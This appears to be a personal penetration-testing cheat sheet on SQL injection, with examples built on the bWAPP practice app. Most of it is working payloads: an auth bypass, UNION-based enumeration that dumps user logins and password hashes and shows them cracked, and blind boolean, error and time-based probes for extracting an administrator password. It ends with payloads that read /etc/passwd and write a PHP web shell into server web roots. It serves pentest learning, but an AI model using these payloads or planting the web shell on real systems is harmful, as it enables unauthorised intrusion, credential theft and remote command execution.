 # SQL overview

* null session:

mysql -u root -h ip 

# SQL injection


## Payloads Cheat Sheet

My cheat sheet shows the methods of SQL injection. To effectively apply them, you need to know and use payloads as well. Here is more than enough: 

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based
* https://portswigger.net/web-security/sql-injection/cheat-sheet

## Injection types

Here are 5 types of injection to look for (source: [OWASP](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection))

* Union Operator: can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
* Boolean: use Boolean condition(s) to verify whether certain conditions are true or false.
* Error based: this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
* Out-of-band: technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
* Time delay: use database commands (e.g. sleep) to delay answers in conditional queries. It is useful when attacker doesn’t have some kind of answer (result, output, or error) from the application.

All examples are based on bWAPP (free pentesting practice tool) examples.

## Test for SQLi vulnerability

* Fuzz using special characters the inputs under test:

```
'
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;  # required for XML content
```
## Auth bypass

```
1` or 1=1 limit 1 #

```

## UNION based sql injection 
This works if you get feedback from the server to your requests.


1. Get number of columns

```
1' order by 1; -- -- ok
1' order by 2; -- -- ok
...
1' order by 7; -- -- ok
1' order by 8; -- -- error -> 7 columns available

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

#using NULL is benficial if it is not certain if data types in columns match

```
Other faster methods (if error messages are enabled):

```
' UNION SELECT 1,2,3,4,5,6,7; -- --	True

1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100; -- --

```


2. identify vulnerable columns

```
-' union all select 1,2,3,4,5,6,7; -- --

Title 	Release 	Character 	Genre 	IMDb
2 	3 	5 	4 	Link

#columns 2,3,4,5 are vulnerable
```

Get Database version:

```
-' union all select 1,@@version,3,4,5,6,7; -- -

#5.0.96-0ubuntu3 > 5 -> continue with table name enumeration

#for database name

-' union all select 1,database(),3,4,5,6,7; -- -

#we get bWAPP

#time for table name

-' union all select 1,group_concat(0x7c,table_name,0x7C),3,4,5,6,7 from information_schema.tables where table_schema=database(); -- -

#output: blog,heroes,movies,users,visitors

#get column names from users table

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_schema=database(); -- -

#output for column names: id,owner,entry,date,id,login,password,secret,id,title,release_year,genre,main_character,imdb,tickets_stock,id,login,password,email,secret,activation_code,activated,reset_code,admin,id,ip_address,user_agent,date

#columns of particular table 
#encode table name "users" as decimal using: http://www.unit-conversion.info/texttools/ascii/

-' union all select 1,group_concat(0x7c,column_name,0x7C),3,4,5,6,7 from information_schema.columns where table_name=char(117,115,101,114,115); -- -

#output of columns in "users": id,login,password,email,secret,activation_code,activated,reset_code,admin,uid,name,pass,mail,theme,signature,signature_format,created,access,login,status,timezone,language,picture,init,data

#lets get login and password 

-' union all select 1,group_concat(login,0x7C,password,0x7C,admin),3,4,5,6,7 from users; -- -

#output.
#A.I.M.|6885858486f31043e5839c735d99457f045affd0|1,bee|6885858486f31043e5839c735d99457f045affd0|1,ok|#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb|0
#obviously column with 1 indicates admin
#cracking with hashcat delivers:
#6885858486f31043e5839c735d99457f045affd0:bug
#7a85f4764bbd6daf1c3545efbbf0f279a6dc0beb:ok


```
## Blind SQL Injection

See also: https://owasp.org/www-community/attacks/Blind_SQL_Injection

### Detection of Blind SQL entry point

#### Conditional Response

```
# returns some result
…xyz' AND '1'='1

# no result
…xyz' AND '1'='2
```
If the first letter of Password is 's' then this query is going to return some Conditional Statement different from normal reponse
`' OR SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

#### Error based 

```
1' or 1=1# returns no erroe

1' or 1=2# returns error or negative response
```

If the first letter of Password is 's' then this query is going to return some Error

`' OR (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`


#### Time based 

If time based injection is valid then for TRUE conditions certain amount of delay shall be present.

```
' AND sleep(15)#


Benchmark:

' AND BENCHMARK(10000000,SHA1(1337))#
```
Sometimes it will be needed to concatenate the strings to make it work. Try it if everything else fails:

`xyz'||sleep(15)--` or `xyz'%3bsleep(15)--`

##### Exploitation of time based BLIND SQLi

1. Detect time based sqli by using time delays:

`'; IF (1=1) WAITFOR DELAY '0:0:10'--` shall cause a time delay

If it doesn't work use payload cheat sheets mentioned above to identify correct datase type.

2. 


# Get shell from sql-injection


## Load files
```
UNION SELECT 1, load_file(/etc/passwd) #

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```

## Write files
```
http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```










